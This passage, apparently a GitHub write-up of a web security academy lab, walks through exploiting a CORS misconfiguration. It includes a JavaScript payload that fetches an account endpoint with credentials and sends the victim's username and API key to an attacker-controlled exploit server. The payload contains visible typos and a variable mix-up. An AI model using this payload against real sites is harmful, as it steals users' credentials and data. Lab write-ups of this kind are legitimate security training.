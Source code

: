 
This behavior indicates a **CORS misconfiguration** — the server accepts and reflects arbitrary origins while allowing credentials. This can be exploited to access sensitive data cross-origin using JavaScript.

---

### Exploitation Plan

The exploit script performs the following steps:

1. Sends a cross-origin request to the `/accountDetails` endpoint using `XMLHttpRequest`.
2. Parses the API key and username from the JSON response.
3. Sends the exfiltrated data to an attacker-controlled server (e.g., the exploit server).


---

### JavaScript Payload (Deployed on Exploit Server)

```javascript
<script>
var r = new XMLHttpRequest();
r.open('get', 'https://ac751fb51e9a30b8c0e42a370085005c.web-security-academy.net/accountDetails', false);
r.withCredentials = true;
r.send();
const obj = JSON.parse(r.response Text);
var r2 = new XMLHttpRequest();
r.open('get', 'https://exploit-ac331fea1e9c3019c02f2a21017000ad.web-security-academy.net/?user=' + obj.username + '&apikey=' + obj.apikey, false)
r.send();
</script>
```

![image](https://github.com/user-attachments/assets/81a15706-5ca0-43de-aaf3-acd1d1f8c7b4)


---

### Results

After delivering the payload to the victim (via the exploit server), the browser automatically made a cross-origin request to `/accountDetails`, and the data was exfiltrated to the attacker’s server. This includes:

* `username`
* `apikey`

![image](https://github.com/user-attachments/assets/91c2558a-450f-4f20-8a85-876bb3fef621)

The lab is successfully solved once the stolen API key is logged.

![image](https://github.com/user-attachments/assets/63d6a6b0-e428-40b7-8e96-5aa446a5f611)

---
